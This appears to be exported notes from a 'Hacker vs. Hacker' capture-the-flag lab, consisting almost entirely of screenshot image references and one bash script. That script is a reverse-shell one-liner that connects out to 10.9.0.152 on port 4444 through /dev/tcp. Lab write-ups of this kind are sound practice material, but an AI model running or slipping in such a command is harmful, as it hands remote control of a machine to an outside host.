 # Hacker vs. Hacker
15 August 2022
03:12 PM

<img src="hackervshacker/media/image1.png"
style="width:5.29167in;height:1.59167in" />

<img src="hackervshacker/media/image2.png"
style="width:5.28333in;height:2.96667in" />

<img src="hackervshacker/media/image3.png"
style="width:5.325in;height:1.39167in" />

<img src="hackervshacker/media/image4.png"
style="width:5.34167in;height:3.25833in" />

<img src="hackervshacker/media/image5.png"
style="width:5.075in;height:0.64167in" />

<img src="hackervshacker/media/image6.png"
style="width:5.20833in;height:1.15in" />

<img src="hackervshacker/media/image7.png"
style="width:5.4in;height:1.88333in" />

<img src="hackervshacker/media/image8.png"
style="width:5.375in;height:4.275in" />

<img src="hackervshacker/media/image9.png"
style="width:5.4in;height:1.925in" />

<img src="hackervshacker/media/image10.png"
style="width:5.425in;height:0.86667in" />

#!/bin/bash
bash -c 'exec bash -i &\>/dev/tcp/10.9.0.152/4444 \<&1'

<img src="hackervshacker/media/image11.png"
style="width:4.94167in;height:0.68333in" />

<img src="hackervshacker/media/image12.png"
style="width:4.925in;height:1.325in" />

<img src="hackervshacker/media/image13.png"
style="width:4.34167in;height:5.13333in" />

<img src="hackervshacker/media/image14.png"
style="width:4.38333in;height:2.275in" />
